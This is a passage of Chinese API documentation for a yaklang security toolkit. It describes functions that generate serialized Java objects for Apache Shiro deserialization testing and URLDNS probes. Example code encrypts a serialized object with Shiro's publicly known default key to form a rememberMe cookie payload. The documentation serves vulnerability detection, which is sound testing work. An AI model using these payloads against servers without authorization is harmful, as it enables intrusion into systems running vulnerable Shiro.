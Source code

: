 ## 功能描述

基于SimplePrincipalCollection序列化模板生成并返回一个Java对象，用于Shiro漏洞检测时判断rememberMe cookie的个数。

## 参数说明

```
func GetSimplePrincipalCollectionJavaObject() => (*JavaObject, error)
```

**请求参数**


**返回类型**

- `r1` : *JavaObject，Java对象
- `r2` : error类型，错误信息

## 示例代码

### 基础用法

生成Java对象并序列化为字节数组

```yaklang
javaObject, _ = yso.GetSimplePrincipalCollectionJavaObject()
classBytes,_ = yso.ToBytes(javaObject)
```

加密数据并生成payload

```yaklang
data = codec.PKCS5Padding(classBytes, 16)
keyDecoded,err = codec.DecodeBase64("kPH+bIxk5D2deZiIxcaaaA==")
iv = []byte(ramdstr(16))
cipherText ,_ = codec.AESCBCEncrypt(keyDecoded, data, iv)
payload = codec.EncodeBase64(append(iv, cipherText...))
```

## 46. `yso.GetURLDNSJavaObject`

## 功能描述

利用Java URL类的特性，生成一个在反序列化时会尝试对提供的URL执行DNS查询的Java对象。

## 参数说明

```
func GetURLDNSJavaObject(url: string) => => (*JavaObject, error)
```

**请求参数**

- `url` : 要在生成的Java对象中设置的URL字符串。
